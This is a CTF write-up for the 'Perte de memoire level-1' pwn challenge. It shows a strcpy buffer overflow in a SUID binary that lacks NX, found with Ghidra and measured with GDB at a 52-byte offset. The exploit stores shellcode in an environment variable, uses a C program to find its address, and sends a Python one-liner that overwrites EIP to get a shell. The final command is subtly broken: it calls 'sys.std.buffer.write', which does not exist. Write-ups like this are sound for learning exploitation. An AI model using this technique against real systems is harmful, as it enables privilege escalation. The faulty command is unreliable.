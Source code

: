 ```yaml
---
title: CTFs | CTF-interINSA | Perte de memoire level-1
author: Kaiba_404
date: 2024-04-07
categories: [CTFs, CTF-interINSA, Perte de memoire level-1]
tags: [CTF, CTF-interINSA, pwn]
permalink: /CTFs/CTF_interINSA/systeme
---
```


# Perte de memoire level-1

The challenge provides us an IP address, username and password to access via SSH. After logging in to SSH, we can immediately see a file that can be exploited through SUID.

![ls_la](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/503196fd-857d-4464-8522-649daa8e0b2b)


To simplify the exploiting process, I utilize SCP to transfer the binary file onto my Kali Linux machine, initiating the reverse engineering procedure.

![scp](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/e96b237a-f1b7-4678-9adf-44c400a260cc)

## Reverse enginnering

Through the utilization of the commands 'file' and 'checksec', we ascertain that the binary is compiled under the x86 architecture and lacks NX protection.

![bin_info](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/b65bb9d4-dfbd-40a2-ae52-647285d1b697)

This indicates the possibility of injecting shellcode directly into the stack to obtain a shell. However, I opt for a more intriguing technique that, in my view, involves fewer steps for successful exploitation. This technique involves saving the shellcode into an environment variable and then manipulating EIP to point to the address of this environment variable.


### Static analysis

We will search for vulnerabilities present in this binary file. Initially, I will utilize Ghidra to analyze the functions within the file.

**main**\
![main_func](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/02e285e5-8acc-4823-a0b8-f751b2cb8455)

**func**\
![vuln_func](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/3bc03ab4-7ded-40eb-afc3-c968f1cd3461)


As observed within the 'func' function, it is utilizing strcpy to copy the contents of argv[1] into the local variable local_34, which opens up the possibility of a buffer overflow vulnerability.

### Dynamic analysis

For dynamic analysis, I utilize GDB on the remote computer via SSH to identify the exact number of characters necessary to overflow the buffer and control the return address.

First I put a break point at the instruction leave in the func function so I can observe the entire stack

![gdb_break_point](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/99f94108-9a8b-442b-b9f4-8fd7e44302a1)

Use the command `python3 -c 'import sys;sys.stdout.buffer.write(b"A"*44+b"B"*4+b"C"*4+b"D"*4)'` and observe the stack

![find_junk](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/998f54ae-2594-4a7c-9d21-dfffa40a0c0f)

![return_overwrite](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/30b6836e-954a-4885-953b-1d29ffccd3ad)


Our analysis concludes that it requires a total of 52 characters (44+4 for buffer overflow + 4 for the saved base pointer) to reach and manipulate the return address.


### Exploit

Now I will start the exploit process. First I will write the shellcode to `SHELLCODE` environment variable

![shellcode_env](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/ecd9fa65-da8b-42f7-ad68-b7036cb3700c)

Next, I will employ a C program (provided below) to find the precise address of the SHELLCODE within the binary file.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char * argv[]) {
    char *ptr;
    if(argc<3){
        printf("Usage: %s <environment var> <target program name>\n", argv[0]);
        exit(0);
    }
    ptr = getenv(argv[1]);
    ptr += (strlen(argv[0]) - strlen(argv[2])) * 2;  
    printf("%s will be at %p\n", argv[1], ptr);
}

// gcc -m32 -o findenv findenv.c
```

![findenv](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/71b0f58b-7ef6-4443-b67c-12e782577d73)

![shellcode_addr](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/b9496a0c-62d9-4daa-95eb-bc892d2f58df)

Address of SHELLCODE `0xffffd821`

Finally, we have all the information. Use the command below to get the shell and get the flag


`./first $(python3 -c 'import sys;sys.std.buffer.write(b"A"*52+<SHELLCODE's address>)')`

--> `./first $(python3 -c 'import sys;sys.std.buffer.write(b"A"*52+b"\x21\xd8\xff\xff")')`

![flag](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/f160110f-8881-4232-b40d-864b31f03569)

Flag: `FLAG[BOFISGOOD!]`